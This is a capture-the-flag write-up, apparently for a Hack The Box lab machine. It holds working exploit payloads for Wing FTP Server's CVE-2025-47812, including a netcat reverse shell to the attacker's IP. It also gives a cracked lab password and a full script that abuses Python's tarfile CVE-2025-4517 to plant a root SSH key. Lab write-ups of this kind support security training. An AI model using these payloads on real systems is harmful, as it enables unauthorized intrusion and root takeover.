









<h2 class="highlight_h2">Attack Path</h2>

<div class="path">
    <div class="node">Recon (nmap, ffuf)</div>
    <div class="node">CVE-2025-47812 -> deserialization vulnerability of Wing FTP Server v.7.4.3</div>
    <div class="node">Obtaining shell as www-data</div>
    <div class="node">Retrieving and cracking Wacky's password hash</div>
    <div class="node">Password reuse. Shell as Wacky</div>
    <div class="node root">PrivEsc via CVE-2025-4517</div>
</div>

## ~$ Reconnaissance

<h5 class="highlight_h5">> nmap scanning</h5>

```bash
sudo nmap -A -Pn $IP
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-title: Did not follow redirect to http://wingdata.htb/
|_http-server-header: Apache/2.4.66 (Debian)
```
The target has two TCP ports open.

Add a record to <span class="highlight_filename">/etc/hosts</span>:

```bash
└─$ echo -n "\n$IP\twingdata.htb" | sudo tee -a /etc/hosts
```

<h5 class="highlight_h5">> Subdomain Discovery</h5>

```bash
└─$ ffuf -u http://wingdata.htb/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.wingdata.htb" -ac 
```

```bash
ftp     [Status: 200, Size: 678, Words: 44, Lines: 10, Duration: 239ms]
```


## ~$ Web



A right-most blue button in the site's header links to the found subdomain -> <span class="highlight_link">ftp.wingdata.htb</span>

Clicking on this button leads to redirection to the login page:
 

Of course, <span class="highlight">Wing FTP Server</span> can not be disregarded.

This is cross-platform software for file transfer via FTP/FTPS protocols. It also includes a web interface for server management.

<h3 class="highlight_h3">~$ CVE-2025-47812</h3>

<span class="highlight">You can find original research by visiting</span> <span class="highlight_link">[this link](https://www.rcesecurity.com/2025/06/what-the-null-wing-ftp-server-rce-cve-2025-47812/)</span>


The Wing FTP server instance allows an anonymous access through the web interface.

An <span class="highlight_username">anonymous</span> user has only read permissions and is treated as an unauthenticated user.

The vulnerability originates in <span class="highlight">loginok.html</span>, which handles the authentication logic.


When a login request is submitted, the <span class="highlight_username">username</span> is passed to <span class="highlight">c_CheckUser()</span> -> a C function inside the main wftpserver binary. Internally, this function uses <span class="highlight">strlen()</span> to determine the username length. Since <span class="highlight">strlen()</span> stops counting at the first null byte, only the part of the username before the null byte is used for validation. This means that `anonymous\x00<anything>` passes the authentication check as a valid anonymous login -> effectively bypassing authentication.

Here is where it gets interesting: after <span class="highlight">c_CheckUser()</span> returns success, <span class="highlight">loginok.html</span> takes the username directly from the POST parameter -> full string, null byte and everything after it included -> and stores it in the session via <span class="highlight">rawset(_SESSION, "username", username)</span>. The session is then saved to disk by <span class="highlight">SessionModule.save()</span>.

Session files in Wing FTP are Lua scripts. The <span class="highlight">serialize()</span> function writes the username as a raw string into the Lua script without any sanitization -> so whatever we inject after the null byte ends up as executable Lua code in the session file.

A request to any authenticated endpoint triggers our injected code.

Let's perform this attack. First, we'll use <span class="highlight">id</span> as the command to execute and verify code execution.

In Burp's Proxy, capture a failed login request, send it to Repeater, and inject the following payload:



```http
username=anonymous%00]]%0dlocal+h+%3d+io.popen("id")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--&password=123
```
The server responds with a cookie:


As a result we can request any page that processes the session file and get the following:



```bash
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```

Get a reverse shell with the following payload:
```bash
username=anonymous%00]]%0dlocal+h+%3d+io.popen("nc+10.10.14.48+1234+-e+/bin/bash")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--&password=123
```
Normilize the shell:



## ~$ Foothold

The target system has only one user named <span class="highlight_username">wacky</span>:

```bash
wingftp@wingdata:/opt/wftpserver/Data/1/users$ ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Nov  3  2025 .
drwxr-xr-x 18 root  root  4096 Feb  9 08:19 ..
drwxrwx---  2 wacky wacky 4096 Jan 22 04:41 wacky
```
<span class="highlight_tools">Wing FTP Server</span> supports three storage backends: <span class="highlight">xml files</span>, <span class="highlight">ODBC database</span>, and <span class="highlight">MySQL database</span>. This instance uses <span class="highlight">xml files</span>.

Data about users are found on this path:
```bash
wingftp@wingdata:/opt/wftpserver/Data/1/users$ ls
anonymous.xml  john.xml  maria.xml  steve.xml  wacky.xml
```
The system user <span class="highlight_username">wacky</span> has a corresponding FTP account here.

Reading this file reveals wacky's password hash.
```bash
wingftp@wingdata:/opt/wftpserver/Data/1/users$ cat wacky.xml 
<?xml version="1.0" ?>
<USER_ACCOUNTS Description="Wing FTP Server User Accounts">
    <USER>
        <UserName>wacky</UserName>
        <EnableAccount>1</EnableAccount>
        <EnablePassword>1</EnablePassword>
        <Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
        <ProtocolType>63</ProtocolType>
```

The <span class="highlight_filename">settings.xml</span> file located  in the parent directory shows that password salting is enabled, and also reveals the salting string:

```bash
wingftp@wingdata:/opt/wftpserver/Data/1$ cat settings.xml | grep Salt
    <EnablePasswordSalting>1</EnablePasswordSalting>
    <SaltingString>WingFTP</SaltingString>
```
The same file confirms <span class="highlight">SHA-256</span> hashing is enabled:
```xml
<EnableSHA256>1</EnableSHA256>
```

It is most possible that <span class="highlight_username">Wacky</span> can reuse a password for ssh login to the target.

To crack the hash we need to know the algorithm of the hashing.
The hashing logic can be found in <span class="highlight_filename">./lua/ServerInterface.lua</span>, in the <span class="highlight">AddUser</span> function:
```lua
wingftp@wingdata:/opt/wftpserver/lua$ cat ServerInterface.lua 

--All Functions
function AddUser(domain,user)

-- ...
local temppass = user.password
if c_GetOptionInt(domain, DOPTION_ENABLE_PASS_SALTING) == 1 then
        local salt_string = c_GetOptionStr(domain, DOPTION_SALTING_STRING)
        if salt_string == "%Name" then
                salt_string = user.username
        end
        temppass = user.password..salt_string
end

-- ...
```

So the password is concatenated with the salt string before hashing: <span class="highlight_info">SHA256(password + "WingFTP")</span>

With the algorithm known, we can crack the hash using hashcat.
The rule file appends <span class="highlight">WingFTP</span> to each password candidate:
```bash
└─$ cat rule                
$W$i$n$g$F$T$P

└─$ hashcat -a 0 -m 1400  wacky.hash /usr/share/wordlists/rockyou.txt -r rule
```


<span class="highlight_info">[+] creds -> wacky : !#7Blushing^*Bride5</span>

SSH login with these credentials succeeds:



<span class="highlight_info">[+] /home/wacky/user.txt</span>

## ~$ Privilege Escalation

```bash
sudo -l
```

<span class="highlight_username">wacky</span> can run <span class="highlight_filename">/opt/backup_clients/restore_backup_clients.py *</span> by root user with any arguments.


The source code of this <span class="highlight_filename">restore_backup_clients.py</span>:
```python
wacky@wingdata:~$ cat /opt/backup_clients/restore_backup_clients.py
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )
    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()

```

The key code snippet:
```python
with tarfile.open(backup_path, "r") as tar:
    tar.extractall(path=staging_dir, filter="data")
```

Further research reveals a relevant vulnerability: [CVE-2025-4517](https://github.com/google/security-research/security/advisories/GHSA-hgqp-3mmf-7h8f)

[The one more link](https://mail.python.org/archives/list/security-announce@python.org/thread/MAXIJJCUUMCL7ATZNDVEGGHUMQMUUKLG/)

Python's version on the target:


<span class="highlight_info">Python 3.12.3 is affected by CVE-2025-4517</span>

<span class="highlight">CVE-2025-4517</span> is a path traversal vulnerability in Python's tarfile module. When using <span class="highlight">filter="data"</span>, the intention is to block absolute paths and `..` traversal -> however, due to improper handling of certain link types, it is still possible to write files outside the intended extraction directory. 

This allows placing arbitrary files at arbitrary paths on the filesystem -> in this case, writing a SSH public key to <span class="highlight_filename">/root/.ssh/authorized_keys</span>.


The backups directory is writable by the <span class="highlight_username">wacky group</span>, meaning we can place a malicious archive there for extraction.
```bash
wacky@wingdata:/opt/backup_clients$ ls -laA
total 12
drwxrwx--- 2 root wacky 4096 Jan 12 08:32 backups
-rwxr-x--- 1 root wacky 2829 Jan 12 08:37 restore_backup_clients.py
drwxr-x--- 2 root wacky 4096 Jan 12 08:43 restored_backups
```

Create an archive with this <a href="#malicious-archive">python script</a>:

```bash
└─$ python cve-2025-4517.py             
```
The script is based on the PoC from the GitHub advisory, modified to write a generated SSH public key into root's <span class="highlight_filename">~/.ssh/authorized_keys</span>.

Once the archive is created, serve it via a simple web server:
```bash
└─$ php -S 0:9090
```

Transfer this archive on the target machine:
```bash
wacky@wingdata:/opt/backup_clients/backups$ wget http://10.10.14.48:9090/backup_1001.tar
```

Then run the restore script as sudo:
```bash
wacky@wingdata:/opt/backup_clients/backups$ sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_r
```

After successful extraction, log in as <span class="highlight_username">root</span> via SSH:
```bash
└─$ ssh root@wingdata.htb -i key
```

<span class="highlight_info">[+] /root/root.txt</span>

<h4 id="malicious-archive">Python script</h4>

```python
import tarfile
import os
import io
import sys

comp = 'd' *  247
steps = "abcdefghijklmnop"
path = ""
content = b"ssh-ed25519 AAA...nKwRI14 \n"

with tarfile.open("backup_1001.tar", mode="x") as tar:
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)
        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)
        path = os.path.join(path, comp)

    linkpath = os.path.join("/".join(steps), "l"*254)
    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = ("../" * len(steps))
    tar.addfile(l)

    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../../root"
    tar.addfile(e)

    dest_path = "escape/.ssh/authorized_keys"
    c = tarfile.TarInfo(dest_path)
    c.type = tarfile.REGTYPE
    c.size = len(content)
    tar.addfile(c, fileobj=io.BytesIO(content))
```